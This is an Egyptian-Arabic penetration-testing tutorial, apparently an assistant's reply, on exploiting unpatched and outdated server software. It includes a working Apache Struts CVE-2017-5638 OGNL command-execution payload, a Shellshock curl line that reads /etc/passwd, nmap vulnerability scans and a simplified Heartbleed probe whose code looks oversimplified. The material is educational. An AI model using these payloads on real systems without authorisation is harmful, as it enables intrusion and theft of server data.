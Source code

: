 تمام، هشرحلك القسم ده عن "الثغرات اللي ما اتعمللهاش باتش والبرامج القديمة" (Unpatched Vulnerabilities and Outdated Software) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. الثغرات اللي ما اتعمللهاش باتش (Unpatched Vulnerabilities)**
## ==> الزتونه :   استغلال البورتات المفتوحه ([[manual Exploitation]])  
#### **شرح عملي:**
الثغرات دي هي عيوب في البرامج (زي خوادم الويب أو التطبيقات) اللي المبرمجين عرفوها وأصدروا ليها تحديثات (Patches)، لكن المسؤول عن السيرفر ما حدّثش النظام. يعني البرنامج لسه فيه الثغرة القديمة وممكن تستغلها.

- **مثال:** ثغرة Heartbleed (CVE-2014-0160) في OpenSSL، لو السيرفر لسه بيستخدم إصدار قديم من OpenSSL، ممكن تسحب بيانات من الذاكرة.

#### **كود عملي (فحص Heartbleed):**
- استخدم أداة زي `sslscan` أو `nmap` تشوف إصدار OpenSSL:
```bash
nmap --script ssl-heartbleed -p 443 <IP>
```
- لو رجعلك "Vulnerable"، يبقى السيرفر ما اتعملش له باتش.
- استغلال بسيط بـ Python (مثال مبسط):
```python
import socket
import struct

target = "<IP>"
port = 443

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(b"\x18\x03\x02\x00\x03\x01\x40\x00") # Heartbeat Request
response = s.recv(1024)
if len(response) > 3:
    print("Heartbleed Vulnerable! Data:", response)
s.close()
```
- لو رجعلك بيانات عشوائية زي كلمات سر أو مفاتيح، يبقى الثغرة شغالة.

#### **خلاصة Pentest بالعامية:**
"لو لقيت سيرفر شغال على حاجة قديمة، اسكنه بـ Nmap تشوف الثغرات اللي لسه موجودة. جرب حاجات زي Heartbleed أو Shellshock لو السيرفر ما اتحدثش، وهتلاقي الباب مفتوح!"

---

  ### **2. البرامج القديمة (Outdated Software)**
## ==> الزتونه : استغلال البورتات المفتوحه ([[manual Exploitation]])  
#### **شرح عملي:**
البرامج القديمة هي إصدارات برامج (زي Apache، Nginx، أو حتى PHP) ما اتحدثتش لآخر إصدار. الإصدارات دي بيكون فيها ثغرات معروفة (CVEs) تم نشرها في قواعد بيانات زي Exploit-DB، وأي حد يقدر يستغلها لو عرف إصدارك.

- **مثال:** Apache 2.4.18 (قديم) فيه ثغرة CVE-2016-4979 تسمح بتنفيذ كود عن بعد (RCE).

#### **كود عملي (فحص إصدار Apache):**
- استخدم `curl` تشوف الـ Server Header:
```bash
curl -I http://<IP>
```
- لو رجعلك:
```
Server: Apache/2.4.18 (Ubuntu)
```
- ابحث عن الإصدار ده في Exploit-DB، لو لقيت ثغرة، جرب تستغلها.

#### **كود عملي (استغلال بسيط لـ Apache قديم):**
- لو فيه ثغرة زي CVE-2017-5638 (Apache Struts)، جرب تبعت طلب HTTP معدل:
```bash
curl -X GET "http://<IP>/struts2-showcase/struts.action" -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
- لو رجعلك اسم المستخدم (زي `www-data`)، يبقى نفذت أمر على السيرفر!

#### **خلاصة Pentest بالعامية:**
"شوف الـ Header بتاع السيرفر بـ `curl` أو `nmap` وابحث عن الإصدار في Google. لو قديم، خش على Exploit-DB، جيب الكود بتاع الثغرة وجربها، وممكن تطلع ملك السيرفر!"

---

### **3. تأثير المشكلة وكيفية اكتشافها**
#### **شرح عملي:**
- **التأثير:** البرامج القديمة والثغرات اللي ما اتعمللهاش باتش بتسمح بتنفيذ كود (RCE)، سرقة بيانات، أو حتى التحكم الكامل في السيرفر.
- **الاكتشاف:** بتستخدم أدوات زي Nessus أو OpenVAS تكتشف الإصدارات والثغرات، أو تسكن يدوي بـ Nmap.

#### **أمر عملي (اسكان بـ Nmap):**
```bash
nmap -sV --script vuln <IP>
```
- هيرجعلك الخدمات والإصدارات (زي Apache 2.4.7) مع الثغرات المرتبطة بيها لو موجودة.

#### **أمر عملي (فحص يدوي):**
- جرب صفحة افتراضية زي `http://<IP>/phpinfo.php` لو موجودة، هتطلعلك إصدار PHP وإعداداته. لو قديم (زي PHP 5.3)، ابحث عن ثغراته.

#### **خلاصة Pentest بالعامية:**
"اسكن السيرفر بـ Nmap أو Nessus، لو لقيت حاجة قديمة زي PHP 5.6 أو Apache 2.2، ابحث عن CVE بتاعها وجرب الكود بتاع الثغرة. لو نجحت، هتبقى داخل النظام في ثواني!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Unpatched Vulnerabilities:**
   -  ء  **Heartbleed (CVE-2014-0160):** لو OpenSSL قديم، استخدم أداة زي `ssl-heartbleed` تسحب بيانات الذاكرة (زي كلمات سر).
   - ء  **Shellshock (CVE-2014-6271):** لو Bash قديم، ابعت طلب HTTP زي:
     ```bash
     curl -H "User-Agent: () { :;}; echo; /bin/cat /etc/passwd" http://<IP>/cgi-bin/test
     ```
     لو رجعلك `/etc/passwd`، يبقى نفذت أمر!

2. **Outdated Software:**
   - ء  **Apache Struts (CVE-2017-5638):** نفذ كود زي المثال اللي فوق، وممكن تفتح Shell كامل.
   - ء  **PHP 5.3 (CVE-2012-1823):** لو لقيت `phpinfo.php` وإصدار قديم، جرب ثغرة RCE تسمح بتنفيذ أوامر عبر GET Parameters.
   - ء  **IIS 6.0 (CVE-2010-3972):** لو IIS قديم، جرب ثغرة Buffer Overflow تسيطر على السيرفر.

3. **مشترك:**
   - ء  **Version Detection:** استخدم `whatweb` أو `wappalyzer` تعرف البرامج والإصدارات:
     ```bash
     whatweb http://<IP>
     ```
   -   ء **Exploit Search:** ابحث في Exploit-DB أو Metasploit عن ثغرات الإصدار:
     ```bash
     msfconsole -q -x "search <CVE-ID>"
     ```
   - ء **Brute Force Ports:** لو بورتات زي 80، 443، أو 8080 مفتوحة، جرب ثغرات معروفة للإصدارات القديمة.

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!